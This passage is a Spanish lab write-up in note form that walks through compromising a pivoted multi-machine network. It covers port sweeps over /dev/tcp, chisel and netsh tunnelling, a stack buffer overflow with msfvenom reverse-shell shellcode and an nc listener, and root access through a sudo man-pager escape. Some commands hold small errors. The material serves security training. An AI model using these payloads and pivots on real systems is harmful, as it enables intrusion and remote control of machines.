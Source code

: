 [[5. Matrix 1]]
# Fase de reconocimiento
## Buscamos hosts en la red
Buscaremos host en red con un script en bash, usando vi
```
#!\dev\null

for i in $(seq 1 254); do
		timeout 1 bash -c "ping -c 10.10.0.$i" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE" &
		
done; wait
```
(Si no acepta traza icmp⬇ )
```
#!\dev\null

for i in $(seq 1 254); do
		for port in 21 22 80 443 445 8080; do
				timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE - PORT $port" &
		done
		
done; wait
```
## Pivoting con Chisel
https://github.com/jpillora/chisel
Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Copiamos chisel en la maquina Aragog
```
scp chisel root@<ip5>:/tmp/chisel
```
2. Nos conectamos al servidor
```
./chisel client <ip4>:8787 R:5522:socks
```
Esto abrirá un tunel por la 5522 con la red del cliente
4. Con netsh (Windows) en Dumbledore lo redirigimos a Nagini  
```
netsh interface portproxy add v4tov4 listenport=8787 listenaddress:0.0.0.0 connectport=8788 connectaddress=<ip2>
```
Esto abrirá un túnel por la 9999 con la red del cliente
5. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"
```
# strict_chain
Deshasteamos dynamic_chain
add abajo:
    socks5 127.0.0.1 5522
	socks5 127.0.0.1 9999
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
```
Ahora para ejeuctar comandos en 'ip5' con proxycahins -comando-
## Buscar puertos
```
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip6> 2>/dev/null
```
Buscaremos puertos con la ayuda de xargs para agilizar el escaneo
```
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip6> 2>&1 | grep "tcp open"
```
![[Pasted image 20240425011947.png]]
## FoxyProxy
Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 5522
## whatweb
```
proxychains whatweb http://<ip6>:10000
```
## Burpsuite para fuerza bruta
### Configuración de proxy
Añadimos la proxy 5522
![[Pasted image 20240425012723.png]]
## Enumerar directorios por fuerza bruta 
1. Interceptamos la web
2. Con el Intruder añadimos en el directorio donde queremos aplicar fuerza bruta
![[Pasted image 20240425013330.png]]
3.  Configuramos el Payload con el diccionario:
/usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
4. Start attack
![[Pasted image 20240425013521.png]]

Este directorio contiene un binario con el programa que utiliza el puerto 9999

Para ver el programa del puerto 9999:
```
proxychains nc <ip6> 9999
```

# Fase de ataque
## Buffer Overflow
Como es un binario de 32 bits lo debbugearemos con Windows 7 23 bits
1. Nos compartimos el binario al Windows 7 
```
python3 -m http.server 80
```
2. Lo ejecutamos y aceptamos todo
3. Nos descargamos e instalamos en Windows Immunity Debugger https://www.immunityinc.com/products/debugger/ y registramos el binario
4. Conectamos al servicio
```
nc <ipwin> 9999
```
Al enviar una cantidad de "A" elevada el programa explota, por lo que nos podemos aprovechar para un buffer overflow

![[Pasted image 20240425210111.png]]
5. Creamos un patrón para localizar donde explota el programa quedándose en el EIP
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```
![[Pasted image 20240425210538.png]]
![[Pasted image 20240425210554.png]]
6. Buscamos el número del EIP para buscar la cantidad de "A" necesarias para sobrescribir el EIP
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134
```
![[Pasted image 20240425210816.png]]
La cantidad son 524
7. Podemos observar que el ESP es la continuación del EIP
8. Con "miona" detectamos que el x00 es un bad chart, lo quitamos
9. Creamos un exploit para conseguir ejecutar el codigo para una revershell
	1. Creamos el shellcode
```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip6> LPORT=443 --platform windows -a x86 -e x86/shikata_ga_nai -f c -b "\x00" EXITFUNC=thread 
```
	2. Creamos el script
**![[Pasted image 20240425215746.png]]
10. Con socat preparamos para redirigir el trafico
11. Nos ponemos en escucha
```
rlwrap nc -nlvp 443
```
12. Lanzamos el exploit
```
proxychains python3 exploit.py
```
[-] ==pwned!==

# Privilege Escalation
1. Creamos otro exploit pero para Linux ya que tiene un subsistema Linux dentro del Windows
	1. Creamos el shellcode
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip6> LPORT=443 -f c -b "\x00" EXITFUNC=thread 
```

![[Pasted image 20240425220603.png]]
2. Nos ponemos en escucha
```
rlwrap nc -nlvp 443
```
3. Lanzamos el exploit
```
proxychains python3 exploit.py
```

Colocamos la terminal
## Hacerse root
Miramos privilegios
```
sudo -l
```
Tenemos un comando que al lanzarlo contiene un manual
Lanzamos el manual y se lanza en modo paginated
Escribimos !/bin/bash
[+] ==pwned!==

# Técnicas Utilizadas
Web Enumeration - BurpSuite Intruder Attack (Due to certain timeout problems using multiple proxies)
EXE Binary Analysis - Immunity Debugger (Buffer Overflow x32 Stack Based)
EXTRA: Playing with netsh to control connection flow in Windows 
EXTRA: Reverse shell going through 4 machines using 4 SOCKS proxies